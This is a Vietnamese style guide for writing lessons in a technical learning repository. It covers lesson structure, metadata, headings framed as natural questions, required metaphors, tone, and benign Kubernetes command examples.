


# ✍️ Writing Style — Chuẩn viết nội dung

> **Tác giả:** Mr.Rom\
> **Phiên bản:** v0.7.0\
> **Tạo lúc:** 15/05/2026\
> **Cập nhật:** 01/06/2026

> 🎯 *File này định nghĩa **cách viết** một bài (lesson, exercise, project, recipe...) — từ cấu trúc bài, văn phong, đến cách dùng diagram và emoji. Khi viết bài mới, copy template từ `templates/` rồi follow file này.*

---

## 1️⃣ Khung 8 phần — REQUIRED và OPTIONAL

Khung 8 phần này **áp dụng cho `lessons/`** (bài học lý thuyết). Các loại nội dung khác (`exercises/`, `recipes/`, `projects/`, `setup/`) có cấu trúc + template riêng — xem `_blueprint/templates/`:

| Loại nội dung | Template + cấu trúc |
|---|---|
| 📖 `lessons/` | Khung 8 phần ở §1 này (file đang đọc) — template `lesson_template.md` |
| 🧪 `exercises/` | Đề bài → Gợi ý ẩn → Đáp án ẩn → Verify → Mở rộng — template `exercise_template.md` |
| 📚 `recipes/` | Problem → Cause → Solution → Verify → Prevention — template `recipe_template.md` |
| 🎯 `projects/` | README chính + step files đánh số — template `topic-readme_template.md` cho README; step file thường ngắn 500-1500 từ |
| ⚙️ `setup/` | Yêu cầu trước → Các bước → Kiểm chứng → Lỗi thường gặp — không có template riêng (đơn giản, dùng cấu trúc tự nhiên) |
| 🗺️ Roadmap | Career hoặc lab-series — template `roadmap_template.md` |

Mọi bài trong `lessons/` tuân khung 8 phần. Phần `✅ REQUIRED` bắt buộc có; phần `🟡 OPTIONAL` chỉ thêm khi cần — không "chế cháo" cho đủ.

| # | Phần | Yêu cầu | Phục vụ |
|---|---|---|---|
| 1 | 📋 **Metadata** | ✅ | Tất cả |
| 2 | 🎯 **Câu dẫn + Mục tiêu** | ✅ | Tất cả |
| 3 | 📖 **Nội dung chính** (lý thuyết + diagram + hands-on tích hợp) | ✅ | Beginner |
| 4 | 💡 **Cạm bẫy thường gặp & Best practice** | 🟡 | Intermediate |
| 5 | 🧠 **Tự kiểm tra (Self-check)** (Q&A) | 🟡 | Beginner/Inter |
| 6 | ⚡ **Tra cứu nhanh (Cheatsheet)** | 🟡 | Senior/tra cứu |
| 7 | 📚 **Từ Điển Thuật Ngữ (Glossary)** (nếu có thuật ngữ EN) | ✅ (có điều kiện) | Tất cả |
| 8 | 🔗 **Liên kết & Tài nguyên** | 🟡 | Tất cả |

### Khi nào dùng OPTIONAL

| Phần | Áp dụng khi… |
|---|---|
| Cạm bẫy thường gặp | Có khái niệm dễ nhầm / lệnh dễ sai cú pháp |
| Tự kiểm tra (Self-check) | Bài đủ sâu để có nội dung kiểm tra (≥ 3 concept chính, hoặc > 1000 từ) |
| Tra cứu nhanh (Cheatsheet) | Có nhiều lệnh / cú pháp người đọc sẽ tra |
| Liên kết | Có bài liên quan / tài nguyên ngoài đáng tin |

> ⚠️ Bài ngắn (quick note, ~1 concept đơn / < 800 từ) có thể chỉ dùng 3 phần REQUIRED.

---

## 2️⃣ Spec chi tiết từng phần

### 2.1 📋 Metadata (REQUIRED)

Đặt **ngay sau** H1, dạng block quote:

```markdown
> **Tác giả:** Mr.Rom\
> **Phiên bản:** v1.0.0\
> **Tạo lúc:** DD/MM/YYYY\
> **Cập nhật:** DD/MM/YYYY\
> **Level:** Basic | Intermediate | Advanced\
> **Tags:** [MUST-KNOW] (nếu áp dụng)\
> **Yêu cầu trước:** [link bài tiên quyết](...) (nếu có)
```

| Field | Ghi chú |
|---|---|
| Tác giả | Luôn `Mr.Rom` (xem `naming/metadata-headers.md`) |
| Phiên bản | SemVer — bump khi sửa bài (v1.0.0 lần đầu, v1.0.1 sửa lỗi typo, v1.1.0 thêm section, v2.0.0 viết lại) |
| Ngày | Format `DD/MM/YYYY` |
| Level | 1 trong 3 (chỉ áp dụng cho `lessons/`) |
| Tags | `[MUST-KNOW]` — bài bắt buộc trong lộ trình tương ứng. Có thể bỏ nếu không áp dụng. Tag khác (vd `[DEPRECATED]`, `[ADVANCED-ONLY]`) thêm sau khi nhu cầu rõ |
| Yêu cầu trước | Link tới bài tiên quyết — quan trọng cho navigation |

#### Cách dùng tag `[MUST-KNOW]`

- Đánh dấu khi bài là **kiến thức bắt buộc** trong roadmap tương ứng (vd: "Pod" là MUST-KNOW cho `devops-engineer_career-roadmap`)
- Hiển thị nổi bật trong `MASTER-CATALOG.md` với biểu tượng 🌟
- Trong roadmap, MUST-KNOW lessons không thể skip — phải làm verify checklist
- Không phải bài nào cũng cần MUST-KNOW — chỉ ~20-30% các bài cốt lõi

### 2.2 🎯 Câu dẫn + Mục tiêu (REQUIRED)

Đặt **ngay sau** metadata. Bao gồm 2 phần liền nhau:

1. **Câu dẫn** — *1 block quote duy nhất* với `> 🎯 *...*` (in nghiêng). Nội dung 1-2 câu: bắt cầu từ bài trước → giới thiệu bài này → kết quả đạt được. **KHÔNG dùng nhiều hơn 1 block quote câu dẫn** ở đây.
2. **Mục tiêu** — heading `## 🎯 Sau bài này bạn sẽ` (không số) + bullet checklist.

```markdown
> 🎯 *Trước khi học Pod, bạn cần hiểu Container (xem `docker/lessons/01_basic/`). Sau bài này bạn sẽ tự tạo, kiểm tra, debug được 1 Pod trong K8s.*

## 🎯 Sau bài này bạn sẽ

- [ ] Hiểu Pod là gì, vì sao K8s dùng Pod thay vì Container trực tiếp
- [ ] Tạo Pod bằng cả imperative (`kubectl run`) và declarative (YAML)
- [ ] Đọc được trạng thái Pod (`kubectl get`, `kubectl describe`)
- [ ] Debug Pod khi gặp lỗi cơ bản
```

**Quy tắc**:
- **1 câu dẫn duy nhất** giữa metadata và Mục tiêu — không lặp, không dùng 2 block quote `> 🎯`
- **Độ dài câu dẫn**: 1-2 câu là vừa. >3 câu nên cắt — chi tiết hơn thì để vào WHY (§2.3)
- Câu dẫn **bắt cầu** từ bài trước → giới thiệu bài này → nói rõ sau bài học được gì
- Mục tiêu dạng checklist (`- [ ]`) — người đọc tích khi học xong
- 3-6 mục tiêu cụ thể, đo lường được (verb-phrase: "hiểu", "tạo", "debug", ...)

### 2.2bis 🔢 Quy ước H2 trong bài — câu hỏi tự nhiên, không khuôn cứng

> ⚠️ **Đổi từ v0.5.0**: H2 nội dung chính KHÔNG dùng `## 1️⃣ Vì sao (WHY)`, `## 2️⃣ X là gì (WHAT)` nữa. Thay bằng **câu hỏi/câu dẫn tự nhiên** mà người đọc thật sự nghĩ trong đầu khi đọc tới đó.

| Heading | Có số? | Ví dụ |
|---|---|---|
| Mục tiêu | ❌ | `## 🎯 Sau bài này bạn sẽ` |
| Nội dung chính | ✅ Có số (1️⃣ 2️⃣ 3️⃣) HOẶC ❌ không số — tuỳ bài | `## 1️⃣ Vậy K8s là gì?` HOẶC `## Vậy K8s là gì?` |
| Cạm bẫy thường gặp | ❌ | `## 💡 Cạm bẫy thường gặp & Best practice` |
| Tự kiểm tra (Self-check) | ❌ | `## 🧠 Tự kiểm tra (Self-check)` |
| Tra cứu nhanh (Cheatsheet) | ❌ | `## ⚡ Tra cứu nhanh (Cheatsheet)` |
| Từ điển thuật ngữ (Glossary) | ❌ | `## 📚 Từ Điển Thuật Ngữ (Glossary)` |
| Liên kết | ❌ | `## 🔗 Liên kết & Tài nguyên` |

**Mẫu H2 cho nội dung chính** (chọn theo ngữ cảnh):

| Vai trò | Ví dụ H2 tự nhiên |
|---|---|
| Đặt vấn đề mở bài | `## Tình huống` / `## Nếu bạn đã quen Docker, hãy thử nghĩ...` |
| Định nghĩa | `## Vậy K8s là gì?` / `## Pod thực ra là gì?` |
| Năng lực / chức năng | `## Nó làm được gì?` / `## K8s giải quyết những gì?` |
| Cách dùng | `## Cách bắt đầu thử K8s ở local` / `## Tạo Pod đầu tiên` |
| So sánh | `## Khác gì so với Docker Compose?` |
| Bên dưới UI | `## Bên dưới ngầm chạy gì?` |

→ **Quy tắc**: H2 phải đọc lên như "câu hỏi người học đang nghĩ trong đầu", không như "đề mục giáo trình". Số 1️⃣ 2️⃣ 3️⃣ chỉ để giữ thứ tự khi bài dài, có thể bỏ.

### 2.3 📖 Nội dung chính (REQUIRED)

Trái tim của bài.

#### 🔑 Nguyên tắc cốt lõi (từ v0.5.1)

> **Bố cục KHÔNG ràng buộc. Tiêu chí duy nhất: bài có trả lời được các câu hỏi WHY/WHAT/HOW không.**

- Một bài (lesson/tool) **có giá trị** khi người đọc sau khi đọc xong **giải đáp được** 3 nhóm câu hỏi cốt lõi (vì sao cần / nó là gì / dùng như nào).
- **Cách thể hiện tuỳ bài** — tuỳ bản chất nội dung. Bài đơn giản có thể 1 đoạn trả lời cả 3. Bài phức tạp có thể 5-7 mục với câu hỏi tự nhiên làm header.
- Header có thể là `## Vậy K8s là gì?` / `## Tình huống thực tế` / `## Bên dưới ngầm chạy gì?` — hoặc dạng bất kỳ miễn đọc lên thấy tự nhiên.
- **Không có quy tắc "phải có đủ section A B C"**. Có quy tắc "đọc xong người đọc hiểu chưa".

#### ⚠️ WHY/WHAT/HOW là **tiêu chí đánh giá**, KHÔNG phải tiêu đề

❌ **Tránh** — viết kiểu "khuôn 3 chữ":
```markdown
## 1️⃣ Vì sao cần K8s (WHY)
[giải thích why]

## 2️⃣ K8s là gì (WHAT)
[giải thích what]

## 3️⃣ Cách dùng K8s (HOW)
[hands-on]
```
→ Người học đọc bị "vẹt theo khuôn", không hấp dẫn, không nhớ.

✅ **Đúng** — dẫn dắt bằng **tình huống** hoặc **câu hỏi gợi suy nghĩ**, header dùng câu hỏi tự nhiên:

```markdown
[Mở bằng tình huống thực tế]
Bạn đã học Docker, biết bật vài service bằng `docker-compose up`. 
Nhưng app thật ngoài đời không chỉ vài service — Netflix chạy hàng 
nghìn microservice, Twitter cả chục nghìn... Vậy bạn có ngồi gõ 
`docker run` cho từng service được không? Hay 1 container chết giữa 
đêm, bạn có biết và start con khác liền không? Chắc chắn không.

Chính vì thế K8s ra đời.

## Vậy K8s là gì?

K8s (viết tắt Kubernetes — tiếng Hy Lạp nghĩa "thuyền trưởng") là 
một hệ thống điều phối container do Google open source năm 2014...

## Nó làm được gì?

Quay lại tình huống đầu bài:
- Hàng nghìn service → K8s tự bật/tắt qua `Deployment`
- Container chết giữa đêm → K8s tự `restart` con mới trong vài giây
- ...

Ngoài ra còn:
- Load balancing tự động
- Rolling update không downtime
- ...

## Làm sao bắt đầu thử ở local?

[hands-on copy-paste được]
```

#### Tiêu chí WHY / WHAT / HOW — dùng để **review** chứ không phải để đặt tiêu đề

| Tiêu chí | Câu hỏi review | Vị trí trong bài (thường) |
|---|---|---|
| 🤔 **WHY** | Bài có làm rõ "không có topic này thì khổ thế nào"? | Mở bài — tình huống/câu hỏi gợi mở |
| 📖 **WHAT** | Bài có định nghĩa rõ + ẩn dụ dễ hình dung + diagram (nếu cần)? | Phần giữa — header "X là gì?" / "Bên dưới ngầm chạy gì?" |
| 🛠️ **HOW** | Bài có hands-on copy-paste được + ví dụ thật? | Cuối — header "Cách bắt đầu" / "Làm thử ngay" |

→ Khi review bài viết xong, tự hỏi 3 câu trên. Nếu thiếu — bổ sung. **Không** ép tiêu đề `WHY/WHAT/HOW`.

#### Khung 3 kiểu mở bài (chọn 1 theo ngữ cảnh)

| Kiểu mở | Khi nào dùng | Ví dụ |
|---|---|---|
| **A. Tình huống thực tế** | Có "pain point" rõ ràng (như K8s vs hàng nghìn service) | "Bạn đã học Docker... nhưng app thật có cả nghìn service..." |
| **B. Câu hỏi gợi suy nghĩ** | Concept ai cũng từng nghĩ tới | "Bạn có bao giờ tự hỏi tại sao `git pull` chậm hơn `git fetch`?" |
| **C. So sánh với cái đã biết** | Topic là bản nâng cấp của cái cũ | "Hồi học C, ta dùng `malloc`/`free` thủ công. Python tự lo cho ta — bằng cách nào?" |

→ **Cấm** mở bằng định nghĩa khô: "K8s là một hệ thống...". Người đọc chưa biết tại sao mình cần biết K8s.

#### 🪞 Định nghĩa kiểu "trả lời tình huống" (preferred)

Định nghĩa nên xuất hiện sau khi đã có **1 tình huống cụ thể** đặt ra trước đó — như "trả lời" cho tình huống. Cách này dễ tiếp thu hơn định nghĩa khô.

❌ **Định nghĩa khô**:
```
Kubernetes là một hệ thống điều phối container mã nguồn mở, được Google 
phát triển và open source năm 2014, cho phép tự động hoá việc deploy, 
scale, và quản lý vòng đời container ở quy mô lớn.
```
→ Đúng, nhưng người đọc đọc xong vẫn ngơ — "thế thì sao?".

✅ **Định nghĩa trả lời tình huống**:
```
[Trước đó đã đặt tình huống: 8000 container, 3h sáng 1 con chết, bạn 
ngồi gõ docker run thủ công không kham nổi]

Chính vì thế K8s ra đời.

**Vậy K8s là gì?** Nó là "người quản lý chung cư 1000 phòng" cho bạn. 
Bạn chỉ cần khai báo "muốn lúc nào cũng có 50 container dịch vụ A 
sống" — K8s tự lo phòng nào hỏng thì sửa, mùa cao điểm mở thêm tầng. 
Về kỹ thuật, đây là 1 hệ thống điều phối container Google open source 
năm 2014...
```
→ Định nghĩa đến **SAU** tình huống, đóng vai "lời giải". Người đọc đã "đói" câu trả lời rồi, định nghĩa đi vào trí nhớ mạnh hơn.

**Quy tắc viết định nghĩa:**

| Bước | Việc |
|---|---|
| 1 | Đặt tình huống / câu hỏi gợi mở **trước** |
| 2 | Nói gọn "X ra đời để giải quyết điều đó" |
| 3 | Đưa ẩn dụ đời thường (nếu áp dụng được) |
| 4 | Mới đưa định nghĩa kỹ thuật chính thức |

→ Định nghĩa kỹ thuật **không cấm** — chỉ đừng để nó đứng cô đơn ở đầu bài.

#### 🪞 Quy tắc ẩn dụ (metaphor) trong WHAT

> ✅ **Bắt buộc**: mọi section WHAT phải có **≥1 ẩn dụ/metaphor** so sánh concept kỹ thuật với 1 thứ đời thường để người mới hình dung.

| Concept kỹ thuật | Ẩn dụ đời thường |
|---|---|
| Pod | "1 căn phòng — chứa 1-2 người (container) cùng dùng chung wifi (network) và tủ đồ (storage)" |
| Service | "1 quầy lễ tân — khách (request) không cần biết nhân viên (Pod) nào đang trực, lễ tân tự điều phối" |
| Container | "1 hộp lego đóng kín — bên trong có app + thư viện + config, plug-and-play ở mọi máy có lego connector" |
| Volume | "USB cắm vào Pod — Pod chết, USB còn data" |
| Deployment | "Bản kế hoạch sản xuất — luôn đảm bảo có đủ 3 Pod (số replicas), Pod chết thì tự thay" |
| Namespace | "Hộp phòng làm việc — team A và team B làm trong 2 hộp khác nhau, không nhìn thấy đồ của nhau" |
| Ingress | "Bảo vệ cổng — quyết định request nào đi vào Service nào dựa trên URL" |
| CRD (Custom Resource Definition) | "Tự thiết kế biểu mẫu mới — K8s học thêm 1 'kind' mới ngoài Pod/Service mặc định" |

Format khi viết:

```markdown
### Pod là gì

**Định nghĩa chính thức**: Pod là đơn vị deploy nhỏ nhất K8s, chứa 1+ container chia sẻ network namespace và storage volume.

**Ẩn dụ đời thường**: 🪞 *Pod giống như 1 **căn phòng** — bên trong có 1-2 người (container), cùng dùng wifi chung (network), tủ đồ chung (volume), và cùng vào/ra qua 1 cửa.*

**Giải thích đơn giản**: ...
```

→ Ẩn dụ là **phần đặc trưng** của repo — giúp beginner hiểu nhanh thay vì đọc định nghĩa khô. Bài thiếu ẩn dụ ở WHAT → fail quality checklist.

**Khi nào skip metaphor**:
- Concept quá đơn giản (vd `git status`) — định nghĩa đã đủ rõ
- Concept đã là metaphor sẵn (vd "thread", "queue" — bản thân tên đã ẩn dụ) — chỉ cần unpack ẩn dụ trong tên

#### Flow 4 bước (low-level — cho mỗi section trong WHAT/HOW)

```
1. Concept (lý thuyết) — "X là gì, vì sao có X"
       ↓ câu dẫn
2. Diagram — visualize concept
       ↓ câu dẫn
3. Hands-on — lệnh / code thử ngay
       ↓ câu dẫn
4. Giải thích — phân tích kết quả, làm rõ từng phần
```

#### Ví dụ áp dụng — bài "Pod"

```markdown
# Pod — Đơn vị deploy K8s

> 🎯 Câu dẫn + mục tiêu

[Mở bằng câu hỏi gợi suy nghĩ]
Bạn vừa học K8s và biết "mọi thứ chạy bằng container". Nhưng nếu 
gõ `kubectl get pods` ta thấy không phải "container", mà là "Pod". 
Vì sao K8s lại sinh ra thêm 1 lớp khái niệm — chẳng phải container 
là đủ rồi sao?

## Pod ra đời để giải quyết gì?
- Trước khi có Pod: deploy container đơn lẻ, khó share network/storage
- Pod ra đời: gom 1-N container gắn chặt vào 1 đơn vị

## Vậy Pod là gì?
- Định nghĩa chính thức: ...
- 🪞 Ẩn dụ: "1 căn phòng chứa 1-2 người (container), cùng dùng wifi 
  chung (network), tủ đồ chung (volume), cùng 1 cửa vào/ra"
- Diagram cấu trúc

## Tạo Pod đầu tiên trong 30 giây
- Imperative: `kubectl run`
- Declarative: YAML
- Kiểm tra + debug
```

→ Vẫn cover đủ 3 tiêu chí WHY/WHAT/HOW, nhưng dẫn dắt bằng câu hỏi "vì sao có Pod khi đã có container?" — tự nhiên hơn nhiều so với header "1️⃣ Vì sao cần Pod (WHY)".

**Quy tắc viết**:

- **Câu dẫn giữa các section** — không nhảy ngang. Ví dụ:
  > *"Hiểu Pod là gì rồi, giờ ta xem cấu trúc bên trong nó qua diagram."*
  > *"Diagram đã rõ, mình thử tạo 1 Pod thật bằng `kubectl`."*
  > *"Pod đã chạy, ta cùng đọc kỹ kết quả `kubectl describe`."*

- **Beginner-friendly mặc định** — giả định người đọc *không biết gì* về topic này. Đừng dùng thuật ngữ chưa giải thích.

- **Hands-on có thể copy-paste ngay** — không bỏ bước, không "ellipsis" `...`. Nếu lệnh dài → tách thành nhiều bước có chú thích.

- **Code block phải kèm ngôn ngữ** (` ```bash`, ` ```python`, ` ```yaml`, ...) để highlight.

- **Output mẫu** sau lệnh — để người đọc biết kết quả đúng trông như nào:

  ````markdown
  ```bash
  kubectl get pods
  ```

  Kết quả mong đợi:

  ```
  NAME         READY   STATUS    RESTARTS   AGE
  myapp-pod    1/1     Running   0          5s
  ```
  ````

- **Bắt buộc giải thích các dòng trạng thái quan trọng trong Output mẫu:** Đối với các lệnh Terminal phức tạp hoặc lệnh kiểm tra trạng thái (như `git status`, `git commit`, `docker ps`, `kubectl describe`), bên dưới Output mẫu **bắt buộc phải có 2-3 câu giải thích ngắn gọn ý nghĩa của các dòng trạng thái hoặc mã màu quan trọng** (ví dụ: giải thích tại sao có chữ màu đỏ, chữ màu xanh, hoặc ý nghĩa cột STATUS/READY). Điều này giúp người học tự tin đối chiếu kết quả thực tế trên máy tính của họ mà không bị hoang mang.

### 2.4 💡 Cạm bẫy thường gặp & Best practice (OPTIONAL)

Format chuẩn:

```markdown
## 💡 Cạm bẫy thường gặp & Best practice

### ❌ Cạm bẫy: <tên cạm bẫy>
- **Triệu chứng**: ...
- **Nguyên nhân**: ...
- **Cách tránh**: ...

### ✅ Best practice: <tên best practice>
- **Vì sao**: ...
- **Cách áp dụng**: ...
```

### 2.5 🧠 Tự kiểm tra (Self-check) (OPTIONAL)

3-5 câu hỏi ôn tập với **đáp án ẩn** dùng `<details>`:

```markdown
## 🧠 Tự kiểm tra (Self-check)

**Q1.** Pod khác Container như thế nào?

<details>
<summary>💡 Đáp án</summary>

Pod là đơn vị nhỏ nhất K8s deploy, chứa 1+ container chia sẻ network namespace và storage. Container là đơn vị runtime (Docker), không có khái niệm "shared network namespace" với container khác.

</details>

**Q2.** Có thể chạy 2 container trong 1 Pod không? Khi nào nên?

<details>
<summary>💡 Đáp án</summary>

Có. Khi 2 container cần chia sẻ data tightly (vd: sidecar pattern — main app + log collector).

</details>
```

### 2.6 ⚡ Tra cứu nhanh (Cheatsheet) (OPTIONAL)

Bảng lệnh/cú pháp tra cứu nhanh. Đặt CUỐI BÀI (trước Glossary/Liên kết).

```markdown
## ⚡ Tra cứu nhanh (Cheatsheet)

| Mục đích | Lệnh |
|---|---|
| Tạo pod | `kubectl run mypod --image=nginx` |
| List pod | `kubectl get pods` |
| Xem chi tiết | `kubectl describe pod mypod` |
| Exec vào | `kubectl exec -it mypod -- bash` |
| Xóa | `kubectl delete pod mypod` |
```

### 2.7 📚 Từ Điển Thuật Ngữ (Glossary) (REQUIRED nếu có thuật ngữ EN)

Bảng `EN | VN | Giải thích` cho mọi thuật ngữ EN xuất hiện trong bài:

```markdown
## 📚 Từ Điển Thuật Ngữ (Glossary)

| EN | VN | Giải thích |
|---|---|---|
| Pod | Pod (giữ nguyên) | Đơn vị deploy nhỏ nhất K8s, gồm 1+ container chia sẻ network/storage |
| Namespace | Không gian tên | Cô lập logic resource trong cluster |
| Manifest | File khai báo | File YAML/JSON mô tả desired state của resource |
```

### 2.8 🔗 Liên kết & Tài nguyên (OPTIONAL)

Section này gồm **3 sub-section cố định** (theo thứ tự) + **nav bullet** điều hướng trước/sau/về cụm. Link text **luôn là tiêu đề thật của bài**, KHÔNG dùng tên file.

```markdown
## 🔗 Liên kết & Tài nguyên

⬅️ **Bài trước:** [Container — đóng gói ứng dụng](../01_basic/03_container.md)
➡️ **Bài tiếp theo:** [Deployment — quản lý nhiều Pod](../02_deployment.md)
↑ **Về cụm:** [Kubernetes cơ bản](../README.md)

### 🧭 Định hướng lộ trình học
- [DevOps Engineer — lộ trình nghề](../../../_roadmaps/devops-engineer_career-roadmap.md) — bài này là MUST-KNOW chặng K8s
- [Container Orchestration — cụm chủ đề](../README.md)

### 🧩 Các chủ đề có thể bạn quan tâm
- [Service — expose Pod ra ngoài](../04_service.md)
- [Volume — lưu trữ bền vững cho Pod](../05_volume.md)

### 🌐 Tài nguyên tham khảo khác
- [Official K8s docs — Pod](https://kubernetes.io/docs/concepts/workloads/pods/) — chi tiết spec
- [Kubernetes the Hard Way (GitHub)](https://github.com/kelseyhightower/kubernetes-the-hard-way) — build cluster from scratch
```

| Sub-section | Mục đích | Nội dung |
|---|---|---|
| nav bullet `⬅️ ➡️ ↑` | Điều hướng tuyến tính trong cụm | Bài trước / bài tiếp theo / về README cụm — link text = tiêu đề thật |
| 🧭 **Định hướng lộ trình học** | Đặt bài trong bức tranh lớn | Link về roadmap nghề/series chứa bài này |
| 🧩 **Các chủ đề có thể bạn quan tâm** | Mở rộng theo chiều ngang | Bài liên quan trong kho, không nằm trên tuyến chính |
| 🌐 **Tài nguyên tham khảo khác** | Nguồn ngoài đáng tin | Doc gốc, GitHub, sách — kèm 1 câu mô tả vì sao đáng đọc |

> ⚠️ **Link text = tiêu đề thật của bài**, KHÔNG dùng đường dẫn file (`../02_deployment.md`) làm text. Sai: `[../02_deployment.md](...)`. Đúng: `[Deployment — quản lý nhiều Pod](...)`.

#### Khi nào skip section này

| Tình huống | Xử lý |
|---|---|
| Có bài liên quan **trong kho** | ✅ Bắt buộc — list ra |
| Có tài nguyên ngoài **đáng tin** | ✅ Bắt buộc — list ra (kể cả khi chưa có bài internal) |
| Chưa có bài liên quan internal, chưa có tài nguyên ngoài đáng list | ❌ Bỏ section hoàn toàn — không "chế cháo" link cho có |
| Bài thuộc roadmap/series | ✅ Bắt buộc — link ngược về roadmap/index |

→ Nguyên tắc: **bỏ section khi không có gì đáng link**, không bỏ vì "kho chưa có content khác". Tài nguyên ngoài 1-2 link cũng đủ.

---

## 3️⃣ Văn phong

### 3.1 Ngôn ngữ

| Quy tắc | Chi tiết |
|---|---|
| Tiếng Việt có dấu | UTF-8 NFC, đầy đủ dấu — không "viet khong dau" |
| Xưng hô | Tác giả = "mình"/"Mr.Rom", người đọc = "bạn" |
| Tránh dịch máy | Không "Đây là một bài viết tuyệt vời về..." — viết tự nhiên |
| Thuật ngữ EN | Giữ nguyên, *in nghiêng lần đầu* + giải thích trong ngoặc |

### 3.2 Tone

- **Friendly nhưng professional** — không quá thân mật ("ê bạn"), không quá cứng ("kính gửi quý độc giả")
- **Patient teacher** — giải thích kỹ, có ví dụ, không assume kiến thức
- **Honest về uncertainty** — nếu không chắc, dùng *"mình không chắc lắm, cần kiểm tra thêm"* hoặc cite source

### 3.3 Câu dẫn liền mạch (điểm khác biệt quan trọng)

❌ **Tránh** — nhảy ngang không có nối:
```markdown
## Pod là gì
[nội dung]

## Diagram Pod
[diagram]
```

✅ **Đúng** — có câu bắc cầu:
```markdown
## Pod là gì
[nội dung]

Hiểu định nghĩa rồi, ta xem cấu trúc Pod qua diagram bên dưới để hình dung rõ hơn.

## Diagram Pod
[diagram]
```

→ **Câu dẫn = thứ blog VN thiếu nhất**. Bù được điều này là khác biệt rõ rệt của repo.

### 3.4 Cấm cú pháp sáo rỗng

| ❌ Không dùng | ✅ Dùng thay |
|---|---|
| "Như đã biết, Pod là..." | "Pod là..." (đi thẳng vào) |
| "Đây là một câu hỏi rất hay..." | (bỏ, trả lời thẳng) |
| "Tôi nghĩ rằng có thể là..." | "Pod có thể..." |
| "Để tổng kết lại..." | "Tóm lại:" |
| "Hy vọng bài viết hữu ích" | (bỏ, kết thúc bằng "Liên kết") |

### 3.5 Nhân vật và tên riêng — Hạn chế, không ép

**Nguyên tắc**: **Hạn chế** dùng tên riêng tự bịa khi viết lessons. Default → vai trò generic. **Không cấm tuyệt đối** — nếu ví dụ cần phân biệt nhiều "người" (SQL multi-row, story tương tác), ưu tiên placeholder convention (xem dưới) thay vì tên cá nhân thật.

**Default — vai trò generic (recommended cho narrative + tình huống)**:

| ✅ Default | ⚠️ Hạn chế |
|---|---|
| `"bạn"` — subject chính trong tình huống | `"Long viết..."`, `"Mai pull..."` (tên cá nhân tự bịa) |
| `"sếp"` / `"senior"` / `"team lead"` | Tên Việt riêng (Long/Mai/Hùng/Trang) |
| `"đồng nghiệp"` / `"team-mate"` | `"anh A"`, `"chị B"` (kiểu xưng hô gia đình) |
| `"team mới"` / `"junior"` / `"intern"` | Tên user nội bộ |
| `"on-call"` / `"SRE"` — role-based | Brand name tự bịa kiểu "Long Shop" |
| `"Acme"` / `"acmeshop.vn"` — brand placeholder | Brand name thiếu nhất quán |

**Vì sao "hạn chế"**:
- Tên riêng tự bịa cross-lesson → reader confused: *"Long là ai? Chỗ nào giới thiệu?"*
- Story arc với character chưa có Blueprint → khi rename phải bulk-replace nhiều file, rất tốn.
- Generic role (`bạn`/`sếp`/`đồng nghiệp`) **không cần giới thiệu**, đọc tự nhiên ngay.
- **Nhưng không cấm tuyệt đối** — ví dụ ngắn 1-2 lần dùng tên riêng để cụ thể hoá tình huống vẫn được, miễn không lạm dụng.

**Nếu thực sự cần character recurring** (cho story arc xuyên cluster):
1. Đề xuất với chủ kho **trước khi viết**.
2. Nếu được approve → **thêm character profile vào Blueprint** (file riêng `_blueprint/08_characters.md` hoặc section mới ở đây) với:
   - Tên + role + recurring traits
   - Tình huống nào dùng character nào
   - Format giới thiệu lần đầu
3. Update Changelog của Blueprint khi thêm rule.

**Brand name placeholder**: Dùng nhất quán `"Acme Shop"` / `"acmeshop.vn"` cho mọi business example. Có thể đổi sang brand khác nếu chủ kho yêu cầu — nhưng đổi 1 lần đồng bộ, không tự bịa lung tung.

